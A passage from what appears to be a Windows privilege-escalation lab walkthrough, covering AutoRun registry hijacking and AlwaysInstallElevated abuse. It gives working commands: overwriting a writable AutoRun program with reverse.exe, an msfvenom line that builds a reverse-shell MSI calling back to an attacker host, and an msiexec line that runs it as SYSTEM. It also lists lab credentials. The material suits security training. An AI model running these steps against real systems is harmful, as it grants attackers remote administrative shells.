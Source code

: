 ## Registry - AutoRuns 

1. Query the registry for AutoRun executables:

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

2. Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:

```
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

3. Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

4. Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it, however if the payload does not fire, log in as an admin (admin/password123) to trigger it. Note that in a real world engagement, you would have to wait for an administrator to log in themselves!

```
rdesktop 10.10.253.199
```

## Registry - AlwaysInstallElevated 

1. Query the registry for AlwaysInstallElevated keys:

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Note that both keys are set to 1 (0x1).

2. On Kali, generate a reverse shell Windows Installer (reverse.msi) using msfvenom. Update the LHOST IP address accordingly:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```

3. Transfer the reverse.msi file to the C:\PrivEsc directory on Windows (use the SMB server method from earlier).

4. Start a listener on Kali and then run the installer to trigger a reverse shell running with SYSTEM privileges:

```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

## Passwords - Registry 
